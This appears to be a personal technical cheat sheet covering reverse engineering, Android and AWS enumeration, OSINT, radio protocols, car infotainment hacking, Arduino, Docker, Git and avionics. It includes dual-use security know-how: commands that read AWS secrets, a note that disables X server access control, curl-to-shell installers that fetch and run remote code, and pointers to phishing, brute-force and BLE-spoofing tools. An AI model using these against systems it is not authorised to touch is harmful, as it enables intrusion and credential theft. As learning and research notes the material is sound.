 pip3 install frida frida-tools objection -U
 frida-ps
 frida-ps -U -a -i
 frida -U -f APP
 frida -U -f APP --no-pause -l SCRIPT

# Reverse Engineering

## radare2

r2 BINARY

analyze the program:
aa
aaaa

e asm.syntax=att - to set the disassembly syntax to AT&T

list of the functions:
afl

see main function code:
pdf @main

insert break point at address 0x56214a3b561e:
db 0x56214a3b561e

run the program:
dc

print variable rbp-0x8:
px @rbp-0x8

view registers values:
dr

## Hopper

<https://www.hopperapp.com/>

## anti-reversing measures

ELF 64-bit MSB *unknown arch 0x3e00* (SYSV) ...
hexdump FILENAME
The 5th byte defines format 32 bits (1) or 64 bits (2)
The 6th byte defines endianness LSB (1)  MSB (2)
hexedit FILENAME
change the 6th byte from 02 to 01
ELF 64-bit LSB shared object ...

# ffmeg

trim music/video
ffmpeg.exe -i FILENAME.mp3 -ss 00:01:40 -to 00:3:14 -c copy FILENAME.mp3

# TOR

Never resize the window

http://zqktlwiuavvvqqt4ybvgvi7tyo4hjl5xgfuvpdf6otjiycgwqbym2qad.onion/wiki/index.php/Main_Page
tor66sewebgixwhcqfnp5inzp5x5uohhdy3kvtnyfxc2e5mxiuh34iid.onion


# SOCIAL ENGINEERING

## OSINT

google images reverse search

exiftool FILE

steghide info -sf IMAGE_FILE

zsteg -a IMAGE_FILE

stegoveritas FILE

## FISHING

gofish

# Android

## Links

<https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05a-Platform-Overview.md>
<https://developer.android.com/studio/releases/cmdline-tools>
<https://developer.android.com/studio#command-tools>

## ADB - Android Debug Bridge

sudo apt install adb
adb devices
adb shell
adb shell pm list packages
adb shell pm path PACKAGE
adb logcat
adb reverse tcp:burp_port tcp:device_port
adb reverse --list
adb reverse --remove-all
adb forward --list
adb install FILE_NAME.apk
adb pull FILENAME
adb push FILENAME
adb backup -apk PACKAGE

## apk analyser

apktool decode FILENAME.apk

jadx-gui FILENAME.apk

# Programming Languages

## Python

[TOTP](./programming/python/totp.py)

[AWS API](./programming/python/aws_api.py)

[weather API](./programming/python/weather_api.py)

[docker](./programming/python/test_docker.py)

[websocket server](./programming/python/websocket_server.py)

[websocket server](./programming/python/websocket_client.py)

### Django

```bash
django-admin startproject PROJECT_NAME
cd PROJECT_NAME
python manage.py startapp APP_NAME
python manage.py makemigrations
python manage.py migrate
python manage.py runserver
```

Project folder structure:

```text
PROJECT_NAME
  manage.py
  PROJECT_NAME
    wsgi.py
    asgi.py
    urls.py
    settings.py
  APP_NAME
    views.py
    tests.py
    models.py
    migrations
    apps.py
    admin.py
    urls.py
```

to include existing databases configure DATABASES in settings.py

python manage.py inspectdb
python manage.py inspectdb > models.py

To dump/load data from/to DB:

```bash
python manage.py dumpdata app_name.model_name > FILENAME_OUT.json
python manage.py loaddata FILENAME_OUT.json
```

To include the CSRF Token add to the html template:


### Create pypi package

```bash
pip install twine
```

create a folder with the files

  directory with package code
  LICENSE.txt
  setup.py
  README.md

create GitHub project

create the package:

```bash
python setup.py sdist
```

upload the package:

```bash
twine upload dist/*
```

## HTML and JavaScript

[Table](./programming/html_js/table_example.html)

[OpenLayer](./programming/html_js/test_openlayer.html)

[Camera](./programming/html_js/test_camera.html)

[WebSocket](./programming/html_js/test_websocket_client.html)

[XMLHTTPRequest](./programming/html_js/test_xml_http_request.html)

[Ciphers](./programming/html_js/test_cipher.html)

sudo apt install npm

npm install express --save

npm init

## Rust

<https://www.rust-lang.org/>

Installation:

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

cargo new hello-rust
cargo build
cargo run

## Assembly

registers

 64 bit - %rax %rbx %rcx %rdx %rsi %rdi %rsp %rbp %r8 %r9 %r10 %r11 %r12 %r13 %r14 %r15

 32 bit - %eax %ebx %ecx %edx %esi %edi %esp %ebp %r8d %r9d %r10d %r11d %r12d %r13d %r14d %r15d

important instructions

 movq source, destination
 leaq source, destination: this instruction sets destination to the address denoted by the expression in source
 addq source, destination: destination = destination + source
 subq source, destination: destination = destination - source
 imulq source, destination: destination = destination * source
 salq source, destination: destination = destination << source where << is the left bit shifting operator
 sarq source, destination: destination = destination >> source where >> is the right bit shifting operator
 xorq source, destination: destination = destination XOR source
 andq source, destination: destination = destination & source
 orq source, destination: destination = destination | source
 cmpq source2, source1: it is like computing a-b without setting destination
 testq source2, source1: it is like computing a&b without setting destination

 **Jump instructions:**
 jmp Unconditional
 je Equal/Zero
 jne Not Equal/Not Zero
 js Negative
 jns Nonnegative
 jg Greater
 jge Greater or Equal
 jl Less
 jle Less or Equal
 ja Above(unsigned)
 jb Below(unsigned)

## SMALI

 V - void
 B - byte
 S - short
 C - char
 I - int
 J - long (uses two registers)
 F - float
 D - double
 Z - boolean
 L - object
 Ljava/lang/String - String Object
 Ljava/lang/CharSequence - CharSequence Object
 [ - array
 [I - intArray
 [C - CharArray
 [Ljava/lang/String - StringArray

## R

Install:
<https://www.r-project.org/>
<https://cran.radicaldevelop.com/>

## Markdow

### Math

$$
f(x) = \int_{-\infty}^\infty \hat f(\xi)\,e^{2 \pi \xi x} \,d\xi
$$

### Emojis

:convenience_store:

### Mermaid



### Sequence



# Regex

<https://regex101.com/>

```text
. - matches a single character of any single character, except the end of a line

^ - matches a term if the term appears at the beginning of a paragraph or a line

$ - matches a term if the term appears at the end of a paragraph or a line

[ ] - matches any single character from within the bracketed list

\- - used for representing a range of letters or numbers

( ) - groups one or more regular expressions

{n} - matches exactly n times of the preceding character

{n,m} - matches minimum and maximum number of times of the preceding character

{n,} - matches minimum number of times the preceding character

| - matches either the regular expression preceding it or the regular expression following it

? - matches 1 or 0 character in front of the question mark

\* - matches 0 or more characters in front of the asterisk

\+ - matches 1 or more characters in front of the plus

! - do not match the next character or regular expression

\ - turns off the special meaning of the next character

\b - matches a word boundary

\n - represents a line break

\t - represents a tab

\w - matches alphanumeric character or underscore it is equivalent to [a-zA-Z0-9_]

\W - match non-alphanumeric character and not underscore

\d - matches digits 0 to 9 it is equivalent to [0-9] or [:digit]

[:alpha:]  - represents an alphabetic character

[A-Za-z]  - represents an alphabetic character

[:digit:]  - represents a digit

[0-9] or [\\d]  - represents a digit

[:alnum:]  - represents an alphanumeric character

[A-Za-z0-9]  - represents an alphanumeric character
```

# GIT

**create a project on github/gitlab**

**go to project folder and:**

git init

**to ignore files:**

nano .gitignore

git add .

git commit -m 'FirstVersion'

git remote add origin URL

git remote add origin URL:USER/REPOSITORY.git

git push -u -f origin master

git pull

git commit -a -m update_1

git push --all [URL, SSH]

git status

**List branches:**

git branch --list

Delete branch:

git branch -d BRANCH_NAME

**Change branch:**

git switch BRANCH_NAME

git checkout BRANCH_NAME

Copy files from another branch to the present one:

git checkout OTHERBRANCH FILENAME

Create tags:

git tag -a v1.4 -m "my version 1.4"

**Remove a submodule:**

1. Delete the relevant section from the .gitmodules file.
2. Stage the .gitmodules changes:
git add .gitmodules
3. Delete the relevant section from .git/config.
4. Remove the submodule files from the working tree and index:
git rm --cached path_to_submodule (no trailing slash).
5. Remove the submodule's .git directory:
rm -rf .git/modules/path_to_submodule
6. Commit the changes:
git commit -m "Removed submodule NAME"
7. Delete the now untracked submodule files:
rm -rf path_to_submodule

# Docker

```text
docker info

docker ps

docker images

docker rmi IMAGE

docker image build PATH_TO_DOCKERFILE -t IMAGE_NAME

docker image build URL

docker run -it IMAGE_NAME/IMAGE_ID CMD

docker start CONTAINER_NAME/CONTAINER_ID

docker stop CONTAINER_NAME/CONTAINER_ID

docker exec -it CONTAINER_NAME/CONTAINER_ID CMD

docker logs -n 100 CONTAINER_NAME/CONTAINER_ID

docker-compose up -d --build --force-recreate

docker-compose build --no-cache

docker context create context_test --docker "host=ssh://USER@IP"

docker context ls

docker context use CONTEXT_NAME
```

## Install on Windows

Download and run the docker executable
Allow Hyper-V or WSL (Windows Substystem for Linux)

If run into troubles:
open cmd with admin previledges

chech hypervisorlaunchtype:
bcdedit

enable it:
bcdedit /set hypervisorlaunchtype auto

desable it (VirtualBox does not run with hypervisorlaunchtype on)
bcdedit /set hypervisorlaunchtype off

Restart the computer!

## Docker GUI apps

To run GUI apps pass the environment variable, volume and network driver:
-e DISPLAY=$DISPLAY
-v /tmp/.X11-unix:/tmp/.X11-unix
--net=host

(ubuntu: required to run startx on host??)

disable access control, clients can connect from any host:
xhost +

Forward logs to files
docker logs CONTAINER_NAME > docker.log 2> docker.err

## My Dockerfiles

[bruteforcer](dockers/bruteforcer/Dockerfile)
[nikto](dockers/nikto/Dockerfile)
[sdr](dockers/sdr/Dockerfile)

# AWS

aws configure --profile PROFILENAME

**profiles are stored in /home/HOME_DIR/.aws**

aws s3 ls BUCKET --no-sign-request

aws s3 cp BUCKET --no-sign-request

**Finding the Account ID belonging to an access key:**

aws sts get-access-key-info --access-key-id ACCESS_KEY_ID

**Determining the Username the access key you're using belongs to:**

aws sts get-caller-identity --profile PROFILENAME

**Listing all the EC2 instances running in an account:**

aws ec2 describe-instances --output text --profile PROFILENAME

**Listing all the EC2 instances running in an account in a different region:**

aws ec2 describe-instances --output text --region us-east-1 --profile PROFILENAME

aws secretsmanager list-secrets --profile PROFILENAME

aws secretsmanager get-secret-value --secret-id SECRET_ID --profile PROFILENAME

[AWS API RAW requests using python](programming/python/aws_api.py)

# Arduino

## CLI

```bash
curl -fsSL https://raw.githubusercontent.com/arduino/arduino-cli/master/install.sh | sh
```

arduino-cli config init

arduino-cli sketch new blink

arduino-cli board list

add estra boards to>
nano ~/.arduino15/arduino-cli.yaml

arduino-cli core update-index

arduino-cli core search esp8266

arduino-cli board listall

arduino-cli compile --fqbn FQBN SKETCH

arduino-cli upload -p PORT --fqbn FQBN SKETCH

arduino-cli lib search LIBRARY

arduino-cli lib install LIBRARY

## ESP8266 NODEMCU Pinout


## ESP32 Pinout


## ESP32 DEV KIT V1 Pinout


## ESP32 CAM Pinout


## Arduino Uno Pinout


## Arduino Mega Pinout


## FTDI FT232RL USB to TTL Pinout


## SPIFFS (SPI Flash File System)

<https://github.com/esp8266/arduino-esp8266fs-plugin/releases>

<https://github.com/me-no-dev/arduino-esp32fs-plugin/releases>

Download and unzip to /home/USER/arduino/tools

## Include ESP32 and ESP8266 boards

<https://dl.espressif.com/dl/package_esp32_index.json>

<https://arduino.esp8266.com/stable/package_esp8266com_index.json>

Then go to Tools->Board->Boards Manager... and search for the desired board to install it

To upload code to ESP32 using USB-to-UART do:
Button trick is to press RST button short after the upload starts

To upload code to ESP32 CAM using USB-to-UART do:
|ESP32 CAM | FTDI Programmer|
|----|----|
|GND | GND|
|5V | VCC (5V)|
|U0R | TX|
|U0T | RX|
|GPIO 0 | GND|
Button trick is to press and hold 'BOOT', then press and release 'RST', then release 'BOOT'

## Include RaspberryPi Pico boards

<https://github.com/earlephilhower/arduino-pico/releases/download/global/package_rp2040_index.json>

Then go to Tools->Board->Boards Manager... and search for the desired board to install it

## avrdude

avrdude -P PORT -b BAUNDRATE -c PROGRAMMER -p PARTNO -U MEMTYPE:r|w|v:FILENAME

r|w|v - means read, write and verify (choose one)

memories types:

flash, eeprom, hfuse (high fuse), lfuse (low fuse), or efuse (extended fuse)

to list available programmers:

avrdude -c bananas

to list available partnos:

avrdude -p bananas

example read eeprom from arduino ATMega328P:

avrdude -c arduino -p m328p -P /dev/ttyUSB0 -U eeprom:r:test.hex

## esptool

<https://docs.espressif.com/projects/esptool/en/latest/esp32/index.html>

pip install esptool

esptool.py -p PORT -b BAUNDRATE --chip CHIP ACTION [MEMORY_LOCATION] FILENAME

default chip type can be specified by setting the ESPTOOL_CHIP environment variable

If no -c option or ESPTOOL_CHIP value is specified, esptool.py

action can be: write_flash, read_flash ...

example write flash to esp32:

esptool.py -p /dev/ttyUSB0 write_flash 0x1000 my_app-0x01000.bin

example read flash from esp32:

esptool.py -p PORT -b 1500000 read_flash 0 0x200000 flash_contents.bin

## MicroPython

[MicroPython](https://micropython.org/)

pip install esptool adafruit-ampy pyserial

Connect UART to esp32 and start terminal console

miniterm.py /dev/ttyUSB0 115200 --dtr 0

Install dependencies on esp32 by running following on console

import upip
upip.install('picoweb')  # tested with 1.5.2
upip.install('micropython-ulogging')
upip.install('ujson')

# RaspberryPi

<https://www.raspberrypi.com/documentation>

## RaspberryPi 3 Pinout

In cli:

```bash
pinout
```


# VPNs

# Protocols

- OpenVPN
- WireGuard
- IKEv2 - Internet Key Exange version 2
- IPsec
- SSTP - SecureSocket Tunneling Protocol
- L2TP - Layer 2 Tunnel Protocol
- PPTP - Point to Point Tunneling Protocol

## Open

- [OpenVPN](#openvpn-port-1194)
- [WireGuard](https://www.wireguard.com/)

Create Keys:

```bash
wg genkey > priv | wg pubkey > pub
```

Create config file:

```bash
cat /etc/wireguard/wg0.conf

[Interface]
Address = 192.168.3.1/24
DNS = 192.168.3.1
PrivateKey = SERVER_PRIVATEKEY
ListenPort = 51820
SaveConfig = true
PostUp = iptables -A FORWARD -i wg0 -j ACCEPT; iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE;
PostDown = iptables -D FORWARD -i wg0 -j ACCEPT; iptables -t nat -D POSTROUTING -o eth0 -j MASQUERADE;
FwMark = 0xca6c

[Peer]
PublicKey = CLIENT_PUBLICKEY
AllowedIPs = 192.168.3.2/32
```

check connection status:

```bash
wg
```

Start and stop:

```bash
wg-quick up wg0
wg-quick down wg0
```

Enable on startup:

```bash
sudo systemctl enable wg-quick@wg0.service
```

- Openconnect

## Proprietary

- ProtonVPN
- Cisco AnyConnect
- Pulse Secure
- GlobalProtect (gp)
- Check Point
- Citrix Gateway
- FortiNet


# Communication Protocols

## Serial Communication Protocols

- Parallel
- Serial
- UART
- Serial
- SPI (Serial Peripheral Interface)
- I2C
- CAN

### UART (Universal Asynchronous Receiver Transmitter)

asynchronous
full-duplex
Baud Rate (bits per second). Standard baud rates are 4800 bps, 9600 bps, 19200 bps, 115200 bps
two wires:
TX
RX

Data Packet:

- Start 1 bit
- Data 5-9 bits
- Parity 0-1 bits
- Stop 1-2 bits

### SPI (Serial Peripheral Interface)

synchronous
full-duplex
four wires:
MOSI (Master Out, Slave In): This wire is used by the master to send data to the slave devices.
MISO (Master In, Slave Out): This wire is used by the slave devices to send data to the master.
SCK (Clock): This wire is used to synchronize the data transfer between the master and slave devices. It is generated by the master and is used by both the master and slave devices to sample the data on the MOSI and MISO lines.
SS (Slave Select): This wire is used by the master to select which slave device it wants to communicate with. Each slave device has its own SS line, and the master can select a specific slave by **pulling its SS line low**.

### I2C (Inter Integrated Circuit)

speed up to 400Kbps
7 or 10 bit addressing system
can connect up to 1024 devices
two wires:
SDA (Serial Data Line)
SCL (Serial Clock Line)

RaspberryPi cmds:
sudo i2cdetect -y 1

### CAN (Controller Area Network)

- two wires: CAN-High and CAN-Low
- 120 Ohm resisor at each end os the bus
- data frame has a 11 bit ID and 0-64 bits (0-8 bytes) of data

chips:
MCP2515

RaspberryPi:

edit /boot/config.txt
dtparam=spi=on
dtoverlay=mcp2515-can0,oscillator=8000000,interrupt=25
dtoverlay=spi-bcm2835
dtoverlay=spi-dma

CANUtils
<https://elinux.org/Can-utils>
<https://github.com/linux-can/can-utils>

sudo apt install can-utils

sudo ip link add name can0 type vcan
sudo ip link set dev can0 up type can bitrate 500000

candump vcan0

### OBD2 (On Board Diagnostics)



**Identifier:** For OBD2 messages, the identifier is standard 11-bit and used to distinguish between "request messages"

**Length:** This simply reflects the length in number of bytes of the remaining data (03 to 06)

**Mode:** For requests is between 01-0A. For responses the 0 is replaced by 4 (41-4A). There are **10 modes** as described in the SAE J1979 OBD2 standard. Mode 1 shows Current Data.

**PID:** For each mode there are a list of standard OBD2 PIDs <https://en.wikipedia.org/wiki/OBD-II_PIDs>

**A,B,C,D:** Data bytes in HEX, which need to be converted to decimal form before they are used in the PID formula calculations. Note that the last data byte (after D) is not used.



## JTAG (Joint Test Action Group)

Test Access point (TAP) is composed of the TAP controller, an instruction register, several test data registers and logic

Data Registers:

BSR – “Boundary-scan register”, the main register for passing data to the boundary-scan cells
BYPASS – A single-bit pass-thru register, connecting TDI to TDO without first passing through the boundary-scan cells

instructions:
EXTEST – Perform an “external” boundary-scan test using the boundary scan cells
SAMPLE and PRELOAD – Boundary scan while the device is functional
BYPASS – Bypasses the boundary scan cells altogether

Other recommended instructions:

IDCODE – Output an identification code stored in an identification data register
CLAMP and HIGHZ – Used to isolate parts of the device without risk of damage. HIGHZ forces all logic outputs to high-impedance mode, while CLAMP forces logic outputs to particular values, e.g. to ensure a device doesn’t respond when other devices are being tested
IC_RESET – Mandatory when a reset selection register is implemented, allows for control of device resets and power
CLAMP_HOLD, CLAMP_RELEASE, and TMP_STATUS – Mandatory when Test Mode Persistence (TMP) is implemented through a TMP controller
INIT_SETUP, INIT_SETUP_CLAMP, and INIT_RUN – Recommended when a device has programmable IO pins
RUNBIST – Built-in system tests, controlled internally
INTEST – Internal boundary-scan test
USERCODE – User-programmable ID code is shifted out
ECIDCODE – Electronic chip identification code, an identifier for the silicon die itself

5 wires:

- TDI (Test Data In)
- TDO (Test Data Out)
- TCK (Test Clock)
- TMS (Test Mode Select)
- TRST (Test Reset) optional

Software:
[OpenOCD](https://openocd.org/) - apt-get install openocd

JTAG interface for the ESP32 Pins:

- GPIO12 - TDI
- GPIO13 - TCK
- GPIO14 - TMS
- GPIO15 - TDO

JTAG interface for the ARM CPU on RaspberryPi:
Set **enable_jtag_gpio=1** on **config.txt**
Pins:

- GPIO22 - ARM_TRST
- GPIO23 - ARM_RTCK
- GPIO24 - ARM_TDO
- GPIO25 - ARM_TCK
- GPIO26 - ARM_TDI
- GPIO27 - ARM_TMS

## Wireless Communication Protocols

### NFC and RFID

Frequencies:

- 125 kHz
- 13.56 MHz

Data:

- Card UID - 4 bytes
- Card SAK
- PICC type

PICC (Proximity Integrated Circuit Card) types:

- MIFARE 1KB
- MIFARE 2KB
- MIFARE 4KB

For MIFARE 1KB:

 16 sectors
  4 blocks
   16 bytes

 that is a total of 1024 bytes = 1 kb

Arduino sensors:

- MFRC522 - 13.56 MHz
- PN532 - 13.56 MHz
- RDM6300 - 125 kHz

Arduino libraries:
<https://github.com/elechouse/PN532>

### SUB GHz

Key items:

- Frequency
- Frequency deviation
- Modulation
- RSSI
- Channnel

Analog Modulations:

- AM
- FM

Digital Modulations:

- FSK (Frequency-shift keying)
- GFSK (Gaussian frequency-shift keying)
- MSK (Multiple Frequency-shift keying)
- ASK (Amplitude-shift keying)
- OOK (On–off keying)

- PSK (Phase-shift keying)

Rádio FM
Arduino module:
TEA5767 - 76-108MHZ

Arduino capable chips:
CC1101

Hacking devices:
EVIL CROW RF
HackRF One

#### 433 MHz

https://github.com/merbanan/rtl_433

#### LORA (LOng RAnge)

Frequencies:
- 433 MHz

Chips:
- SX1276/77/78/79

Libraries:
- <https://github.com/sandeepmistry/arduino-LoRa>
- pip install pyLoRa

| SX1278 | NODE MCU | RaspberryPi | Arduino | ESP32 DEV KIT V1 |
| -- | -- | -- | -- | -- |
| GND | GND | GND | GND | GND |
| GND | - | - | - | - |
| 3.3V | 3.3V | 3.3V | 3.3V | 3.3V |
| RST | GPIO0 | GPIO22 | GPIO9 | GPIO14 |
| DIO0 | GPIO2 | GPIO4 | GPIO2 | GPIO2 |
| DIO1 |  |  |  |  |
| NSS | GPIO15 | GPIO8 | GPIO10 | GPIO5 |
| MOSI | GPIO13 | GPIO10 | GPIO11 | GPIO23 |
| MISO | GPIO2 | GPIO9 | GPIO12 | GPIO19 |
| SCK | GPIO14 | GPIO11 | GPIO13 | GPIO18 |

#### POCSAG (Post Office Code Standardisation Advisory Group)

- various frequencies depending on region

### ADS-B (Automatic Dependent Surveillance-Broadcast)

- Frequency: 1090 MHz
- Frame lenght: 112 bits 
- Frame strucure: 5 parts

Frame:

| Bit | No. bits | Abbreviation | Information |
| --- | --- | --- | --- | 
| 1–5 | 5 | DF | Downlink Format |
| 6–8 | 3 | CA | Transponder capability |
| 9–32 | 24 | ICAO | ICAO aircraft address |
| 33–88 | 56 | ME | Message, extended squitter |
| 89–112 | 24 | PI | Parity/Interrogator ID |

ME Field:

| Bit | No. bits | Abbreviation | Information |
| --- | --- | --- | --- | 
| 1–5 | 5 | TC | Type code |
| 6–8 | 3 | CA | Aircraft category |
| 9–56 | 48 | MD | Message Data |

TC in combination with CA gives information about the Wake vortex category
MD depends on the TC value:

| TC | MD content |
| --- | --- |
| 1–4 | Aircraft identification |
| 5–8 | Surface position |
| 9–18 | Airborne position (w/Baro Altitude) |
| 19 | Airborne velocities |
| 20–22 | Airborne position (w/GNSS Height) |
| 23–27 | Reserved |
| 28 | Aircraft status |
| 29 | Target state and status information |
| 31 | Aircraft operation status |

[ADS-B Encode Decoder Python Script](./programming/python/ads_b.py)

Websites:
https://github.com/junzis/pyModeS
https://github.com/antirez/dump1090
https://mode-s.org/decode/index.html
https://www.flightradar24.com/
https://globe.adsbexchange.com/
https://opensky-network.org/

To receive directly from SDR use pyModeS:

```bash
pip install pyModeS
pip install pyrtlsdr
```

```bash
modeslive --source rtlsdr
```

### 2.4GHz

2.401 GHz to 2.525GHz
1MHz space
126 channels

5 Bytes Pipes Addresses


NRF24L01

For RasberryPi:
https://github.com/BLavery/lib_nrf24

### WiFi

frequencies:
2.4 GHz
5.0 GHz

Channels:


### Bluetooth

frequencies:
2.4 GHz

<https://www.bluetooth.com/>
<https://btprodspecificationrefs.blob.core.windows.net/assigned-numbers/Assigned%20Number%20Types/Assigned%20Numbers.pdf>

Advertise Apple Products
https://github.com/ronaldstoner/AppleJuice-ESP32/blob/main/app.py

Apps:
https://www.nordicsemi.com/Products/Development-tools/nrf-connect-for-desktop
https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=pt_PT

### Bluetooth LE (Low Energy)

frequencies:
2.4 GHz

### ANT+

frequencies:
2.4 GHz

### Mobile Networks

2G GSM (Global System for Mobile Communications)
3G UMTS
4G LTE
5G NR

Chips:
- SIM800L
- SIM900A
- SIM7070G
- SIM7000E
- SIM7600G-H

<https://github.com/RangeNetworks/dev>

<http://openbts.org/site/wp-content/uploads/ebook/Getting_Started_with_OpenBTS_Range_Networks.pdf>

### GNSS (Global Navigation Satellite System)

| Name | Region | # Satellites |
| --- | --- | --- |
| GPS | United States | 32 |
| GALILEO | European Union | 30 |
| BeiDou | China | 30 |
| GLONASS | Soviet Union | 24 |

#### GPS

Frequencies:
- L1 at 1575.42 MHz
- L2 at 1227.60 MHz
- L5 at 1176.00 MHz

Chips:
- NEO-6M

NMEA sentences:
https://campar.in.tum.de/twiki/pub/Chair/NaviGpsDemon/nmea.html
https://gpsd.gitlab.io/gpsd/NMEA.html

Linux CMDs

```bash
sudo apt install -y gpsd gpsd-clients
sudp system start gpsd.service
gpsmon /dev/serial0
```

Python Modules

```bash
pip install pynmea2
```

### SDR (Software Defined Radio)

Software:
- SDR
- SDR++
- HDSDR
- GQRX

RTL-SDR DONGLES:
- RTL2832U

Dragon OS
https://cemaxecuter.com/

# Garmin

Download the SDK Manager
<https://developer.garmin.com/connect-iq/sdk/>

Unzip it and run it:
./sdkmanager

Install the desired SDK version and Devices

Install Visual Studio Code monkeyC extension and generate a key

API Docs:
<https://developer.garmin.com/connect-iq/api-docs/>

Learn Monkey C
<https://developer.garmin.com/connect-iq/monkey-c/>

# HOW TOs

[Android Tools Setup](./howto/android_tools_setup.txt)
[Android Virtual Box Setup](./howto/android_virtual_box_setup.txt)
[Apache Flask](./howto/apache_flask.txt)
[Apache Http Secure Headers](./howto/apache_http_secure_headers.txt)
[Apache Python](./howto/apache_python.txt)
[Apk Buildozer](./howto/apk_buildozer.txt)
[Certbot Install](./howto/certbot_install.txt)
[Esp8266 01](./howto/ESP8266_01.txt)
[Install Apache2](./howto/install_apache2.txt)
[Install Apache2 Windows](./howto/install_apache2_windows.txt)
[Install Mysql](./howto/install_mysql.txt)
[Install Opencv Linux](./howto/install_opencv_linux.txt)
[Install Opencv](./howto/install_opencv.txt)
[Install Opengl Linux](./howto/install_opengl_linux.txt)
[Install Openvas Gvm](./howto/install_openvas_gvm.txt)
[Install Pip2](./howto/install_pip2.txt)
[Kali Black Login](./howto/kali_black_login.txt)
[Kali Bypass Root](./howto/kali_bypass_root.txt)
[Qt Mysql](./howto/qt_mysql.txt)
[Raspberrypi Ap](./howto/raspberrypi_ap.txt)
[Raspberrypi Power Button](./howto/raspberrypi_power_button.txt)
[Ros Installation](./howto/ros_installation.txt)

# Car Hacking

## Renault Clio IV

### Infotainment System

OS WinCE 6



Click order:

- up left
- down left
- up right
- center
- down right

[Enter the codes ](./others/renault_madianav_codes.txt)

# SMART City


# Electromagnetic spectrum

$$
f = \frac{v}{\lambda} = \frac{c}{\lambda} = \frac{E}{h}
$$
$$
E = \frac{hc}{\lambda}
$$
where:
c = 299792458 m/s is the speed of light in vacuum
h = 6.62607015×10−34 J·s = 4.13566733(10)×10−15 eV·s is the Planck constant



## Radio Frequencies

Some IEEE Bands:
- L: 1GHz to 2GHz
- S: 2GHz to 4GHz
- C: 4GHz to 8GHz
- X: 8GHz to 12GHz

https://www.sigidwiki.com/wiki/Signal_Identification_Guide
https://www.aresvalley.com/artemis/
https://www.anacom.pt/streaming/qnaf2010_2011_20junho2012.pdf?contentId=1129525&field=ATTACHED_FILE


# Tone Dialing

<https://www.daenotes.com/sites/default/files/article-images/tone-dialing.png>

# Logic Gates

| A | B | AND | NAND | OR | NOR | XOR | XNOR | NOT | Buffer |
| :-: | :-: | :-: | :--: | :-: | :-: | :-: | :-: | :-: | :-: |
|  |  |  |  |  |  |  |  |  |  |
| 0 | 0 | 0   | 1    | 0  | 1   | 0   | 1    | 1   | 0 |
| 0 | 1 | 0   | 1    | 1  | 0   | 1   | 0    | -   | - |
| 1 | 0 | 0   | 1    | 1  | 0   | 1   | 0    | 0   | 1 |
| 1 | 1 | 1   | 0    | 1  | 0   | 0   | 1    | -   | - |

# Aerospace

https://www.aerospacevillage.org/


# Aircraft

## OSITN

https://www.flightaware.com/live/
https://www.flightradar24.com/
https://www.adsbexchange.com/

## Design

DO-178C - Software Considerations in Airborne Systems and Equipment Certification

[Aicraft Design Formulas](./aircraft_design.html)

[Jet Propulsion Formulas](./jet_propulsion.html)


## Avionics

### ACARS (Aircraft Communication Addressing and Reporting System)

Is a digital datalink system for transmission of short messages between aircraft and ground stations via airband radio or satellite.

- MSK (Minimum Shift Keying) modulation
- send aircrfat data to ATC and to Aircraft Operator
- use VHF or HF and SATCOM
  - 131.550 MHz Primary channel for the USA & Canada
  - 130.025 MHz Secondary channel for the USA
  - 129.125 MHz Tertiary channel for the USA
  - 131.725 MHz Primary channel for Europe
  - 131.450 MHz Primary channel for Japan
  - 131.550 MHz Primary channel for Pacific Rim
  - 131.475 MHz Private company channel for Air Canada
- data transmitted:
  - aircraft position
  - aircraft systems status
  - weather info
  - Air traffic control messages
  - Aeronautical operational control
  - Airline administrative control
  - OOOI (out of the gate, off the ground, on the ground, and into the gate) events
  - Flight management system interface
  - Ping messages
  - Manually sent messages
  - others
- 2400 bit/s (bps) transmission rate
- message
  - headers
    - SOH
    - Mode
    - A/C Reg
    - TA(C)K
    - Label
    - DBI
    - [STX]
  - message
    - message number (usefull for protect agains replay attacks
    - flight ID
    - text
  - checksum (usefull for integrity)

- data in not encrypted, if it his the key is static along all the endpoints

- software:
  - acarsdec - https://github.com/TLeconte/acarsdec
  - acars-sdrplay
  - dumpvdl2
  - acarsdeco2

ACARS over IP using GSM network??

#### VDLM2 (VHF Digital Link Mode 2) uses D8PSK (Differential 8-Phase Shift Keying)

- software:
  - dumpvdl2 - https://github.com/szpajder/dumpvdl2
  
### ACAS (Airborne Collision Avoidance System)

### ADS-B (Automatic dependent surveillance – broadcast)

[Check Above Info](#ads-b-automatic-dependent-surveillance-broadcast)

### AHRS (Attitude and heading reference system)

Inputs:
- gyroscope
- accelerometer
- magnetometer

Outputs:
- Roll
- Pitch
- Yaw



### ARINC 429

Data bus standard for aviation
Electrical and data format characteristics are defined for a two-wire serial bus with one transmitter and up to 20 receivers.
Capable of operating at a speed of 100 kbit/s.

### CMU

### DME (Distance Measuring Equipment)

### GCWS (Ground collision warning system)

### GPWS (Ground proximity warning system)

### FMC

### FMS (Flight Management System)

based on ARINC 702A

### ILS (Instrument Landing System)

- localizer
  - operates at 108 to 112 MHz
  - left 90 Hz
  - right 150 Hz
- glide slope
  - operates at 329.15 to 335 MHz 
  - high 90 Hz
  - low 150 Hz

### IRS (Inertial Reference System)

based on ARINC 704

### Mode A/C/S

### NDB (Non Directional Beacon)

### PSR (Primary Surveillance Radar)

### TACAN (Tactical Air Navigation System)

### TAWS (Terrain awareness and warning System)

### TCAS (Traffic Collision Avoidance System)

### VOR (VHF Omnidirectional Range)

## Aircraft Antennas and Probes

- WEATHER RADAR – The WXR antenna sends the RF pulses and receives the RF returns. The receiver/transmitter (R/T) gets air data inertial reference unit (ADIRU) pitch and roll data for antenna stabilization.
- AOA SENSOR – The AOA sensor provides Angle of Attack by sensing the direction of local airflow.
- GPS – The GPS antennas receive L-band frequency signals (1575.42 MHz) and sends them to the multi mode receivers (MMR).
- VHF – The VHF antenna receives and transmits RF signals in the VHF frequency range. (ARINC and SITA)
- HF – The HF antenna receives an RF signal from the antenna coupler and transmits the RF signal to other airplane and ground HF communication systems. The antenna also receives incoming RF signals and sends the RF signals to the antenna coupler.
- TCAS – The TCAS directional antennas receive traffic airplane reply signals. They also transmit the TCAS interrogation signals.
- ATC – The two antennas transmit signals from the ATC transponder and send received signals to the ATC transponder. TheATC transponders interface with the TCAS system.
- GPS – The GPS antennas are on the top of the fuselage. GPS sensor units are in the multi mode receivers (MMR).
- PITOT PROBE – The pitot probe measures pitot air pressure.
- STATIC PROBE – The static ports measure static (ambient) air pressure.
